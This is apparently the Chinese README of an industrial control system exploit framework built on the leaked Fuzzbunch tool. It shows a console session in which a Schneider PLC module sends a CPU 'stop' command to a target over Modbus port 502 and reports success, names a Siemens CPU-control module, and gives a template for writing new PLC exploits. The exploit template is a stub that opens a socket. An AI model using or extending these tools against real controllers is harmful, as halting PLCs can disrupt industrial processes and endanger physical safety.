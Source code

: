 
# 一、	框架介绍

本框架主要使用Python语言开发，通过集成ShadowBroker释放的NSA工具Fuzzbunch攻击框架，开发一款适合工控漏洞利用的框架。由于Fuzzbunch攻击框架仅适用于Python2.6，很多核心的功能都封装成了DLL，通过函数进行调用，不便于后期的移植和使用。但是，Fuzzbunch的命令行使用的确很方便，而且够傻瓜，所以就有集成一个适合工控漏洞利用的框架想法。新框架对主要的接口使用Python重新实现，所以支持Python2.X版本。

肯定会有人问，有牛逼的MSF，搞这个玩竟儿有什么用？主要基于如下几点考虑

* MSF命令行使用不够傻瓜，纯属个人观点，仅供参考。
* 工控的很多私用协议都使用Python开发，有很多优秀的Python框架（如scapy、kitty），集成在MSF很麻烦，有一个Python的框架会方便很多。
* 最主要的一个原因是，从事工控安全以来，本人一直在使用Python，很多脚本都是基于Python开发的，想将手上所有的资源进行整合，提供一个统一的平台，方便。


# 二、	框架使用

进入目录，执行如下命令：

    python main.py

界面显示如下：

    D:\isf\isf>python main.py

                                   ???
                             ???????????????
                          ?????           ?????
                       ????                   ????
                     ????                       ????
                    ???                           ???
                   ???             ??              ???
                  ???           ????????            ???
                 ???           ???????????           ???
                 ???          ?????????????          ???
                 ??          ???????????????          ??
                 ??         ?????????????????         ??
                 ??        ??????       ?????         ??
                 ??            ???????????            ??
                 ??            ???????????            ??
                 ??             ?????????             ??
                 ???             ???????             ???
                 ???              ?????              ???
                  ???          ???????????          ???
                   ???      ?????????????????      ???
                    ???   ????????????????????    ???
                      ?????????????????????????????
                       ???????????????????????????
                          ?????????????????????
                             ---ICSMASTER---

    + - - - - - + [ Version 1.1.1                           ] + - - - - - +
    + - - - - - + [ MADE BY ICSMASTER. HTTP://ICSMASTER.COM ] + - - - - - +
    
    [*] Loading Plugins
    [*] Initializing isf v1.1.1
    [*] Adding Global Variables
    [+] Set ResourcesDir =>. c:\isf\Resources
    [+] Set Color =>. True
    [+] Set ShowHiddenParameters =>. False
    [+] Set NetworkTimeout =>. 60
    [+] Set LogDir =>. D:\isf\isf\logs
    [*] Autorun ON
    
    Exploit Autorun List
    ====================
    
      0) apply
      1) touch all
      2) prompt confirm
      3) execute
    
    
    Payload Autorun List
    ====================
    
      0) apply
      1) prompt confirm
      2) execute
    
    
    [+] Set ISFStorage =>. D:\isf\isf\storage
    isf >
    
show命令使用，显示当前所有的插件，如下所示

    isf > show
    
    Plugin Categories
    =================
    
      Category     Active Plugin
      --------     -------------
      Exploit      None
      Payload      None
    
    isf > show Exploit
    
    Plugin Category: Exploit
    ========================
    
      Name                            Version
      ----                            -------
      Schneider_CPU_Command           1.1.0
      Siemens_300_400_CPU_Control     1.1.0

use命令使用，调用相关插件，并根据命令行提示配置参数，如下所示

    isf > use Schneider_CPU_Command

    [!] Entering Plugin Context :: Schneider_CPU_Command
    [*] Applying Global Variables
    
    [*] Applying Session Parameters
    [*] Running Exploit Touches
    
    
    [!] Enter Prompt Mode :: Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp
      TargetPort      502
      Command         stop
    
    [!] plugin variables are valid
    [?] Prompt For Variable Settings? [Yes] :
    
    [*]  TargetIp :: Target IP Address
    
    [?] TargetIp [] : 192.168.1.30
    [+] Set TargetIp => 192.168.1.30
    
    [*]  TargetPort :: Target Port
    
    [?] TargetPort [502] :
    [+] Set TargetPort => 502
    
    [*]  Command :: The control command of cpu [stop/start]
    
    [?] Command [stop] :
    [+] Set Command => stop
    
    
    [!] Preparing to Execute Schneider_CPU_Command
    
    Module: Schneider_CPU_Command
    =============================
    
      Name            Value
      ----            -----
      TargetIp        192.168.1.30
      TargetPort      502
      Command         stop
    
    [?] Execute Plugin? [Yes] :
    [*] Executing Plugin
    logging to file
    [+] Schneider_CPU_Command Succeeded


# 三、	EXP编写

编写一个EXP需要包含两个文件，一个参数描述性的文件 *.xml 和 一个漏洞脚本文件 *.py，两个文件的名字需要相同，xml定义输入输出的参数的基本信息，如下所示，EXP需要三个参数，分别是TargetIp、TargetPort、Command。注意：XML文件中 name 字段不能重复。

    <?xml version="1.0"?>
    <t:config id="c72514379eaad943b62f4080a5ae1dc61619f0f3"
              name="Schneider_CPU_Command"
              version="1.1.0"
              configversion="1.1.0.0"
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xmlns:t='tc0'>
    
      <t:inputparameters>    
        <t:parameter name="TargetIp"
                     description="Target IP Address"
                     type="IPv4"/>
        <t:parameter name="TargetPort"
                     description="Target Port"
                     type="TcpPort"
                     default="502"/>
        <t:parameter name="Command"
                     description="The control command of cpu [stop/start]"
                     type="String"
                     default="stop"/>
      </t:inputparameters>
    </t:config>
    
漏洞利用脚本编写方法如下，如果不清楚可以直接拷贝如下模板进行修改

> 1、继承基础类 BaseExploit 
> 2、填写POC基础信息 pocinfo
> 3、注册命令行，向register_options变量增加make_option对象即可，注意参数名称需要与xml文件保持一致
> 4、实现exploit函数
    
    #!/usr/bin/env python
    # coding=utf-8
    from core.exploit import *


    class MyPoc(BaseExploit):
        pocinfo = {
            'ID': 'ICF-2017-000001',
            'Name': '施耐德昆腾140系列PLC CPU控制',
            'Author': 'w3h',
            'Create_Date': '2017-04-09',
            'Description': '''施耐德昆腾140系列PLC认证用户时Session使用是单比特，导致攻击者可以向PLC发送CPU控制指令。''',
    
            'Vendor': VENDOR.SI,
            'Device': ['Schneider Quantum 140'],
            'App': '',
            'Protocol': 'modbus',
            'References': {'CVE': '', 'CNVD': '', 'OSVDB': '', 'CNNVD': ''},
    
            'Risk': RISK.H,  # H/M/L
            'VulType': VULTYPE.REP
        }
    
        register_options = [
            make_option('--TargetIp', action='store', dest='TargetIp',
                        type='string', default=None, help='The target of this poc.'),
            make_option('--TargetPort', action='store', dest='TargetPort',
                        type='int', default=502, help='The port of this poc [default:502].'),
            make_option('--Command', help='The constrol commond of cpu', dest="Command", default="stop"),
        ]
    
        def exploit(self, *args, **kwargs):
            cmd = self.getParam("Command")
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((self.TargetIp, self.TargetPort))
            pass
    
    # POC标准入口函数
    MainEntry(MyPoc, __name__)
    



